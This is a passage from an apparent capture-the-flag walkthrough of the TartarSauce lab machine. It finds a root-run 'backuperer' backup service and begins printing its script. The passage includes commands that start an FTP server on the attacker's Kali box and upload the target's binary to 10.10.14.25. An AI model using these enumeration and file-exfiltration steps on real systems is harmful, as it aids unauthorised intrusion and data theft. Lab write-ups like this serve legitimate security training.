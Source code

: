 The file `onuma_backup_test.txt` has some interesting text:

![user7](./tartarsauce/user7.png)

It seems like there is something running in the background... Maybe it is running as `root`? Try to find files for this background task:

```bash
find / -iname *backuperer* -exec ls -lad {} \; 2>/dev/null
```

This returns the following interesting files:

```
/lib/systemd/system/backuperer.service
/lib/systemd/system/backuperer.timer
/usr/sbin/backuperer
```

`backuperer.service` is a systemd service that calls the `/usr/sbin/backuperer` binary. Download and examine the binary on Kali:

```bash
# run on kali
sudo python3 -m pyftpdlib -p 21 -w
# run on target
cd /dev/shm/
cp /usr/sbin/backuperer .
ftp 10.10.14.25
mode binary
put backuperer
```

It seems like the file is just a Bash script:

```bash
#!/bin/bash
#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------
# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check
# formatting
printbdr()
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
bdr=$(printbdr)
# Added a test file to let us see when the last backup was run
```